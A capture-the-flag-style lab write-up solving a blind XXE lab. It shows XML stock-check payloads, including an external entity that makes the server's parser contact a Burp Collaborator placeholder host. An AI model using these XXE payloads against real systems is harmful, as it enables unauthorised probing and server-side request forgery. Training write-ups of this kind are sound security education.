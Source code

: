 # Lab: Blind XXE with out-of-band interaction

> Lab Objective: use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

- Check Stock for any product, then inspect the Request and Response.

- You'll notice that the POST body is in XML Format.
  ![1st screenshot](./attachments/1.png)

- Using this payload to configure which data value will reflect in the response.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE attacker [<!ENTITY xxe "HELLO">]>
<stockCheck>
    <productId>
        1 &xxe;
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

- In both cases where you put `&xxe;` in `productId` and `storeId`, `HELLO` is not reflected.

  - Put `&xxe;` in `productId`:
    ![2nd screenshot](./attachments/2.png)
  - Put `&xxe;` in `storeId`:
    ![3rd screenshot](./attachments/3.png)

- Use this payload to try to trigger an Out-of-Band Interaction.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE attacker [<!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-URL">]>
<stockCheck>
    <productId>
        1 &xxe;
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

- The Interaction has occured.
  ![4th screenshot](./attachments/4.png)

- Therefore, the lab is solved.
  ![5th screenshot](./attachments/5.png)

---
